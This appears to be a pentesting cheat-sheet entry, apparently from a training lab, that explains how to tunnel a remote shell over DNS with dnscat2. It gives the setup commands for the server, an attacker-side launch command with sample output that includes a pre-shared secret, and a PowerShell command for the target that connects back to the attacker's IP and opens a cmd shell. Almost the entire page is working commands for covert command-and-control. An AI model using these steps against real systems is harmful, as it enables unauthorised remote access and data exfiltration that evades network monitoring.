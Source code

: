 Sends data inside the TXT record within the DNS protocol.

Setup:

```bash
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server
sudo gem install bundler
sudo bundle install

git clone https://github.com/lukebaggett/dnscat2-powershell.git
```

Attacking device:

```bash
sudo ruby dnscat2.rb --dns host=<your_ip>,port=53,domain=<domain> --no-cache
```

Example: 

```bash
sudo ruby dnscat2.rb --dns host=10.10.15.35,port=53,domain=inlanefreight.local --no-cache

New window created: 0
New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 10.10.15.35:53
[domains = inlanefreight.local]...

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=b09d8b08b6c9afbffab2c352046bf371 inlanefreight.local

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=b09d8b08b6c9afbffab2c352046bf371

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.

dnscat2> New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

```

Grab the secret key. In this case: b09d8b08b6c9afbffab2c352046bf371

Target:

```bash
Import-Module .\dnscat2.ps1

Start-Dnscat2 -DNSserver 10.10.15.35 -Domain inlanefreight.local -PreSharedSecret b09d8b08b6c9afbffab2c352046bf371 -Exec cmd
```

Back on the attacking device:

```bash
dnscat2> window -i 1
```

Now have fully interactive shell (slow)

